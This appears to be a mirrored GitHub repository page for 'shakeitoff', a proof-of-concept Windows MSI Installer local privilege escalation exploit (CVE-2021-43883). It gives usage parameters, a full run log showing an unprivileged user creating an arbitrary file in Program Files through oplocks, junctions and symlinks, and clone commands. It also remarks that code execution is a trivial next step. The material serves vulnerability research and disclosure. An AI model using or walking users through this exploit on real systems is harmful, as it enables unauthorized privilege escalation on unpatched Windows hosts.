# shakeitoff

Windows MSI Installer LPE (CVE-2021-43883)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jbaines-r7](https://github.com/jbaines-r7) |
| Url      | [https://github.com/jbaines-r7/shakeitoff](https://github.com/jbaines-r7/shakeitoff)                                               |
| Stars    | 73                                                          |
| License  | BSD 3-Clause "New" or "Revised" License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-41379* cve-2021-43883* exploit* lpe* windows

</details>

## Readme

# shakeitoff

A smaller, minimized, and cleaner version of [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver) aka the zero-day exploit that is a "variation" of CVE-2021-41379 (later assigned [CVE-2021-43883](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43883)). This version *does not* pop a shell like `InstallerFileTakeOver`. The point of this code was to create a simpler proof of concept that more reliably demonstrates the file creation attack. This proof of concept will create the arbitrary file requested by the user (and copy itself into it to prove writablity). Demonstrating code execution is a trivial excercise left up to the reader.

To understand how the attack works, please see the [AttackerKB write up](https://attackerkb.com/topics/7LstI2clmF/cve-2021-41379/rapid7-analysis).

## Usage

The tool requires three parameters:

```
C:\Users\albinolobster\source\repos\shakeitoff\x64\Release>.\shakeitoff.exe
option "msi_path" is required
Allowed options:
  -h, --help              produce help message
  -m, --msi_path arg      The path to the MSI to install
  -i, --install_path arg  The path to install to
  -p, --target_path arg   The file to create
```

1. -m - the msi to install (full path required). One is provided in this repository (and you should use it since the file paths actually matter).
2. -i - the install path (full path required). This is where the msi is installed / the exploit goes down. The user must specify this beforehand and it *must* be an empty directory. The tool doesn't clean it up because it makes figuring out the bug easier. There also must be a trailing \ because I'm a monster.
3. -p - the file to overwrite/create. Full path required.


The PoC will just copy itself into the target file. 


## Usage Example

```
C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

File Not Found

C:\Users\Public>.\shakeitoff.exe -m C:\Users\Public\shakeitoff.msi -i C:\Users\Public\lol\ -p "C:\Program Files\lol"
[+] User provided MSI path: C:\Users\Public\shakeitoff.msi
[+] The target path is: C:\Program Files\lol
[+] Create the temp directory structure we'll install into
[+] Grabbing handle to lock C:\Users\Public\lol\shakeitoff\haters.jpg
[+] Grabbing a directory handle of C:\Users\Public\lol\shakeitoff\
[+] Monitor shakeitoff\shakeitoff for an rbf file
[+] MSI install: ACTION=ADMIN REBOOT=ReallySuppress TARGETDIR=C:\Users\Public\lol\ C:\Users\Public\shakeitoff.msi
[+] Grabbing a handle to inner shakeitoff directory
[+] In callback for oplock one
[+] Opening handle to C:\Users\Public\lol\shakeitoff\8da858.rbf
[+] Creating the callback directory at C:\Users\Public\lol\cb_directory
[+] Grab a handle for the callback directry
[+] Creating a junction from C:\Users\Public\lol\cb_directory to \BaseNamedObjects\Restricted
[+] Inside callback two
[+] Release the hater.jpg handle to unlock
[+] Move the rbf file to C:\Users\Public\lol\weird_directory
[+] Move inner shakeitoff to C:\Users\Public\lol\weird_directory
[+] Move junction at C:\Users\Public\lol\cb_directory to C:\Users\Public\lol\shakeitoff
[+] Configuring symlink from \BaseNamedObjects\Restricted\8da858.rbf to \??\C:\Program Files\lol
[+] symlink created!
[+] MsiInstallProductA return value: 1603
[+] Exploit thread joined
[+] Copy into target!

C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

12/02/2021  02:01 PM           368,640 lol
               1 File(s)        368,640 bytes
               0 Dir(s)  86,015,610,880 bytes free
```

## Credit

* This code is influenced by the original [exploit](https://github.com/klinix5/InstallerFileTakeOver) published by Abdelhamid Naceri (also the original vulnerability discoverer!).
* The `FileOpLock` code is a (slight modified) version pulled out of [angrypolarbearbug2](https://github.com/jackusm/polarbearrepo/tree/f37184a3fc3ffa5ea76035c9fbdee95a39d7b4c3/angrypolarbearbug2)
* Taylor Swift



## Get the content

```
git clone https://github.com/jbaines-r7/shakeitoff
cd shakeitoff
```

{% embed url="https://github.com/jbaines-r7/shakeitoff" %}

<figure><img src="https://avatars.githubusercontent.com/u/91965877?v=4" alt=""><figcaption><p>jbaines-r7</p></figcaption></figure>
